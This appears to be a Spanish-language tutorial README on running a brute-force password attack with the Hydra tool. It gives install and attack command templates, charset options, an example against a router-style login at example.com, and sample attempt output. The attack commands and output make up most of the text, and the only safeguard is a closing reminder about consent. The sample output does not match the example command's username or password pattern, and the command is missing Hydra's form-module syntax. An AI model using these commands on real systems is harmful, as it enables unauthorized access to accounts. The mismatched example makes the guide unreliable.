 # Ataque de fuerza bruta

## Instala Hydra
Asegúrate de tener Hydra instalado en tu sistema. Puedes descargarlo desde la página oficial de Hydra o utilizar el administrador de paquetes de tu sistema operativo.

```bash
sudo apt install hydra
```

## Obten la información de destino
Antes de ejecutar el ataque, necesitas recopilar información sobre el objetivo, como el nombre de usuario o la URL del formulario de inicio de sesión.

# Ejecuta el ataque de fuerza bruta
 
Abre una terminal y ejecuta el siguiente comando:

```
hydra -l <nombre_de_usuario> -V -x <MIN>:<MAX>:<CHARSET> <dirección_del_objetivo> <protocolo>
```

- Reemplaza <nombre_de_usuario> con el nombre de usuario o lista de nombres de usuario a probar.
- Reemplaza <dirección_del_objetivo> con la dirección IP o URL del objetivo.
- Reemplaza <protocolo> con el protocolo de autenticación utilizado, como HTTP, FTP, SSH, etc.
- Remplaza \<MIN\>:\<MAX\>:\<CHARSET\> en función de la siguiente información

```
MIN     is the minimum number of characters in the password
MAX     is the maximum number of characters in the password
CHARSET is a specification of the characters to use in the generation
             valid CHARSET values are: 'a' for lowercase letters,
             'A' for uppercase letters, '1' for numbers, and for all others,
             just add their real representation.
  -y         disable the use of the above letters as placeholders
Examples:
   -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
   -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
   -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
   -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-
   -x 3:5:aA1 -y generate passwords from length 3 to 5 with a, A and 1 only
```

Por ejemplo, si deseas realizar un ataque de fuerza bruta HTTP al formulario de inicio de sesión de un router con el nombre de usuario "admin", el comando podría ser:

```
hydra -l admin -V -x 6:8:1 http://example.com/login
```

Hydra comenzará a realizar combinaciones de contraseñas hasta encontrar la correcta o agotar todas las posibles combinaciones de los simbolos y longitudes seleccionadas.

```
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaaa" - 1 of 11881376 [child 0] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaab" - 2 of 11881376 [child 1] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaac" - 3 of 11881376 [child 2] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaad" - 4 of 11881376 [child 3] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaae" - 5 of 11881376 [child 4] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaaf" - 6 of 11881376 [child 5] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaag" - 7 of 11881376 [child 6] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaah" - 8 of 11881376 [child 7] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaai" - 9 of 11881376 [child 8] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaaj" - 10 of 11881376 [child 9] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaak" - 11 of 11881376 [child 10] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaal" - 12 of 11881376 [child 11] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaam" - 13 of 11881376 [child 12] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaan" - 14 of 11881376 [child 13] (0/0)
[ATTEMPT] target http://example.com/login - login "tools" - pass "aaaao" - 15 of 11881376 [child 14] (0/0)
```

# Monitorear el progreso y los resultados
Hydra mostrará el progreso y los intentos de autenticación que está realizando. Puedes monitorear la salida en tiempo real y ver si se encuentra una coincidencia de contraseña exitosa.

Recuerda que es importante realizar este tipo de actividad solo con el consentimiento del propietario del sistema o con fines educativos legítimos.
